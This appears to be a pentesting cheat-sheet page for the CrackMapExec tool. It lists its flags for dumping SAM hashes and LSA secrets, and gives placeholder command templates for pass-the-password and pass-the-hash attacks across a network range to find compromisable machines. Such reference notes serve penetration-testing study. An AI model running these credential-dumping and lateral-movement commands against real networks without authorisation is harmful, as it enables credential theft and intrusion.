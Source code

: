 ```yaml
---
title: CRACKMAPEXEC
summary: A swiss army knife for pentesting networks.
description: A swiss army knife for pentesting networks.
---
```


**[https://github.com/Porchetta-Industries/CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec)**

## Flags


 > 
 > **<font color=red>--sam</font>**</br>
 > Dump SAM hashes.
 > 
 > **<font color=red>--lsa</font>**</br>
 > Dump LSA Secrets.

## Pass the Password


 > 
 > **<font color=red>crackmapexec smb</font> \[TARGET_NETWORK_ADDRESS\]<font color=red>/</font>\[TARGET_CIDR\] <font color=red>-d</font> \[TARGET_DOMAIN\] <font color=red>-u</font> \[mySamName\] <font color=red>-p</font> \[myUserPassword\]**</br>
 > Pass the Password around the network to find pwnable machines.

![tool-crackmapexec-example.png](../attachments/tool-crackmapexec-example.png)

## Pass the Hash (NT)


 > 
 > **<font color=red>crackmapexec smb </font>\[TARGET_NETWORK_ADDRESS\]<font color=red>/</font>\[TARGET_CIDR\] <font color=red>-u</font> \[mySamName\] <font color=red>-H</font> \[myUserNTHASH\] <font color=red>--local-auth</font>**</br>
 > Pass the Hash attack (NT Hash) around the network to find vulnerable machines.
